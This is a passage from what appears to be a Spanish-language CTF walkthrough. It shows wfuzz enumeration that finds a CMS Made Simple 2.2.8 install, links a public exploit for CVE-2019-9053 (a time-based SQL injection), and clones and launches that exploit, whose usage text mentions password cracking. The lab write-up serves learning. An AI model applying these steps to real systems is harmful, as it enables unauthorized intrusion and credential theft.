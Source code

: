 ```bash
=====================================================================

000004553:   200        126 L    1182 W     19993 Ch    "simple"                                                                                                                    
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 115.7430
Processed Requests: 6140
Filtered Requests: 6139
Requests/sec.: 53.04854
```

Vemos que se tiene el recurso **simple**, vamos a echarle un  ojo:

![""](/assets/images/thm-simplectf/simplectf.png)

Vemos que nos encontramos frente a un CMS (Gestor de contenido) y que se tiene la versión 2.2.8; por lo que podrimos buscar algun posible exploit:
- [CMS Made Simple](https://www.exploit-db.com/exploits/46635)
Para nuestro, utilizaremos el exploit en la plataforma de Github [CVE-2019-9053](https://github.com/e-renna/CVE-2019-9053):

```bash
❯ git clone https://github.com/e-renna/CVE-2019-9053
Cloning into 'CVE-2019-9053'...
remote: Enumerating objects: 23, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 23 (delta 5), reused 5 (delta 1), pack-reused 0
Receiving objects: 100% (23/23), 7.56 KiB | 7.56 MiB/s, done.
Resolving deltas: 100% (5/5), done.
❯ cd CVE-2019-9053
❯ python3 exploit.py
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```
